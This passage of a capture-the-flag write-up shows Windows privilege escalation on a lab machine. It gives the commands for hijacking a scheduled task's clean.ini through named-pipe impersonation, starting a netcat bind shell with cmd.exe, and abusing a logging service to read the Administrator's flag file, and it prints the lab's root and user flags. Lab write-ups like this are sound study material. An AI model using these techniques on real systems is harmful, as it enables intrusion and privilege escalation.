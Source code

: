 Now that we modified the clean.ini file, after some time, the .bat execute, and the clean.ini will also be executed. So, my kvzlx.txt file will be created

To know the user that executes that task, we can use the pipeserverimpersonate.ps1 script https://github.com/decoder-it/pipeserverimpersonate/blob/master/pipeserverimpersonate.ps1
``` bash
evil-winrm > cd C:\Windows\System32\spool\drivers\color\
evil-winrm > upload pipeserverimpersonate.ps1

#edit again the clean.ini file
evil-winrm >  echo [Main] > clean.ini
evil-winrm >  echo LifeTime=100 >> clean.ini
evil-winrm >  echo LogFile=\\.\pipe\dummypipe >> clean.ini
evil-winrm >  echo Directory=C:\inetpub\logs\logfiles >> clean.ini

#execute the impersonate script
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color\
C:\Windows\System32\spool\drivers\color\pipeserverimpersonate.ps1
Waiting for connection on namedpipe:dummypipe
user=HACKBACK\hacker
```

Using this, now we have the username (hacker), and we can impersonate this user.

``` bash
#create a .bat
C:\Windows\System32\spool\drivers\color\nc64.exe -lvp 4444 -e cmd.exe
#upload netcat and my .bat
evil-winrm > kvzlx.bat
evil-winrm > upload nc64.exe

#edit the pipeserverimpersonate.ps1 script to add the code that we want the user (hacker) to execute
copy C:\Windows\System32\spool\drivers\color\kvzlx.bat C:\util\scripts\spool\kvzlx.bat
evil-winrm > upload pipeserverimpersonate.ps1

#execute the impersonate script
evil-winrm > C:\Windows\System32\spool\drivers\color\pipeserverimpersonate.ps1
```

In this way I take advantage of the task that is executed at time intervals to get a bind shell.

Now, with proxychains and netcat, I can connect to the victim machine

``` bash
proxychains rlwrap nc 127.0.0.1 4444
``` 

Now we are as the user "hacker". Checking the services on the machine, I found something interesting : a "userlogger" service that records user activity.
``` bash
reg query HKLM\SYSTEM\CurrentControlSet\Services
UserLogger
``` 
Whit this user, we can have the privilege to start or stop the service.
We can give a name to the user log, and the log file has full privilege for every user. So, we can try to take advantage of this to get access to the root.txt flag
``` bash
evil-winrm > sc start userlogger C:\users\Administrator\desktop\root.txt:
#ADS (alternative data stream)
evil-winrm > more < C:\users\Administrator\desktop\root.txt:flag.txt
``` 

Root flag > 6d29b069d4de8eed1a2f1e62f7d02515
user flag > 922449f8e39c2fb4a8c0ff68d1e99cfe